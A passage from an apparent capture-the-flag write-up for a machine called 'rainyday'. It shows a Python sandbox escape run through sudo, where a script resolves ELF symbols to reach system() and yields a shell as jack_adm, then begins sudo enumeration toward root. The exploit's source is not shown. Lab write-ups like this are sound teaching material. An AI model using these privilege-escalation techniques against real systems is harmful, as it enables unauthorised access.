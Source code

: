 

But running it with `sudo` and `safe_python` results in a shell as
jack_adm:



    jack@rainyday:/dev/shm$ sudo -u jack_adm safe_python ./sploit.py 
    [*] .dynamic:   0x558397107be8
    [*] DT_SYMTAB:  0x558396ba65f8
    [*] DT_STRTAB:  0x558396bb3300
    [*] DT_RELA:    0x558396c0c560
    [*] DT_PLTGOT:  0x558397107e08
    [*] DT_INIT:    0x558396c10000
    [*] Found system at rela index 97
    [*] Full RELRO binary, reading system address from GOT
    [*] system:     0x7f4d4a4dcd60
    $ id
    uid=1002(jack_adm) gid=1002(jack_adm) groups=1002(jack_adm)



## Shell as root

### Enumeration

jack_adm can run `hash_password.py` as root:



    jack_adm@rainyday:~$ sudo -l
    Matching Defaults entries for jack_adm on localhost:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

    User jack_adm may run the following commands on localhost:
        (root) NOPASSWD: /opt/hash_system/hash_password.py



Just like above, jack_adm can't access the script to see what it does:



    jack_adm@rainyday:~$ ls -l /opt/hash_system/hash_password.py
    ls: cannot access '/opt/hash_system/hash_password.py': Permission denied
    jack_adm@rainyday:~$ ls -l /opt/hash_system/
    ls: cannot open directory '/opt/hash_system/': Permission denied
    jack_adm@rainyday:~$ ls -l /opt/
    total 8
    drwx--x--x 4 root root 4096 Sep 29 13:47 containerd
    drwxr-x--- 3 root root 4096 Oct 19 10:00 hash_system



### hash_password.py

#### Typical Usage
